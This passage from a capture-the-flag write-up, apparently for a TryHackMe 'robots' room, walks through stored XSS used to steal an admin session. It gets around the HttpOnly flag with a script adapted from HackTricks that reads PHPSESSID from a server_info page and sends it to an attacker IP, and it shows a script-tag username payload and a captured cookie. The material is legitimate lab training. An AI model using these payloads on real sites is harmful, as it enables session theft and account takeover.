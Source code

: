 Now, we must convert this to get our md5 password:

```
echo -n "<script>fetch("http://10.6.34.159:8000/?cookie="+document.cookie)</script>0101" | md5sum
```

If we try getting our cookie, we are unable to do so, due to this:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317143641.png)

The `HttpOnly` flag is set in the server, this prevents JS to access the cookie, we can exploit this in other way though, let's use this script:

```js
var url = "http://robots.thm/harm/to/self/server_info.php";
var attacker = "http://10.6.34.159/exfil";
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var match = xhr.responseText.match(/PHPSESSID=([a-zA-Z0-9]+)/);
        if (match) {
            fetch(attacker + "?cookie=" + match[1]);
        }
    }
}

xhr.open('GET', url, true);
xhr.send(null);
```

We can find this in HackTricks, we just needed to adapt the content to steal the cookie only:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317143941.png)


Now, let's register an username with the following:

```
<script src="http://10.6.34.159/cookie_steal.js"></script>
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317144124.png)


We can see this in our python server:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317144147.png)

Got our cookie:

```
6p7hh3m9oh0shm3icts9c1qt2h
```

Let's change our value and login as admin:
